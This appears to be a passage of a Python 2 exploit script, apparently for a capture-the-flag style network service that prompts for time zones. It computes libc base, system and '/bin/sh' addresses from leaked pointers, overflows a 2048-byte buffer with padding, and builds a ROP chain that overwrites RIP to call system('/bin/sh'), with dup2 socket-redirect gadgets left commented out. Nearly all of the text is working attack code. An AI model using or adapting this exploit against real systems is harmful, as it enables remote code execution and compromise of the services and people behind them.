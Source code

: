 ```python

    bin_sh_str_adr = LIBC_BASE + offset_str_bin_sh
    system_addr    = LIBC_BASE + offset_system
    dup2_addr      = LIBC_BASE + offset_dup2

    print "-------------------------------------"
    print "|    setvbuf_libc is: %s|" % hex(setvbuf_libc)
    print "|       time_libc is: %s| (wrong but irrelevant)" % hex(time_libc)
    print "|     gmtime_libc is: %s|" % hex(gmtime_libc)
    print "|       free_libc is: %s|" % hex(free_libc)
    print "|       LIBC BASE is: %s|" % hex(LIBC_BASE)
    print "|     SYSTEM ADDR is: %s|" % hex(system_addr)
    print "| BIN_SH STR ADDR is: %s|" % hex(bin_sh_str_adr)
    print "-------------------------------------"

    # Lets now overwrite the RIP with our ROP and redirect code execution!
    print "\n***********************"
    print "*** CONTROLLING RIP ***"
    print "***********************"
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    pad1 = 'A'*(2048+8)
    pad2 = "CCCCCCCC"*7  # Write over other saved registers

    pop_rdi_ret = 0x400b34 # pop rdi ; ret
    pop_rsi_ret = 0x4009ff # pop rsi ; pop r15 ; ret

    dummy = 0x4141414141414141
    ROP  = "".join([
        # ### dup(4, 0)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x0),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 0)

        ### dup(4, 1)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x1),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 1)

        ### dup(4, 2)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x2),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 2)

        p64(pop_rdi_ret),    # pop rdi ; ret
        p64(bin_sh_str_adr), # "/bin/sh" in rdi
        p64(system_addr),    # ret to system
    ])

    # Sometimes addresses might contain a '\n' so we need to restart
    if "\n" in ROP:
        print "ABORT!! ROP contains a //n"
        print ROP
        print "ABORT!! ROP contains a //n"
        return 0
```